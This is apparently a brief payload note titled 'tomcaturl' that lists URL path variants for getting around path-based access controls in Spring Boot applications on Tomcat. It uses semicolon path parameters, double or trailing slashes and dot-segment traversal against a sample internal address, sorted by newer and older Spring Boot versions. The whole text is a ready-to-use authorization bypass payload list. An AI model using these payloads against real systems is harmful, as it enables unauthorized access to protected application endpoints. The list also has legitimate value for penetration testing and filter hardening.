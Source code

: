 # tomcaturl
payload:

高版本springboot：

http://192.168.2.62:8080/;xxx/user/index

http://192.168.2.62:8080/;xxx;/user/index

http://192.168.2.62:8080/;/user/index

http://192.168.2.62:8080//user/index

http://192.168.2.62:8080/user/index/

低版本springboot:

http://192.168.2.62:8080/./user/index

http://192.168.2.62:8080/sss/../user/index

高版本springboot的payload兼容低版本springboot的payload
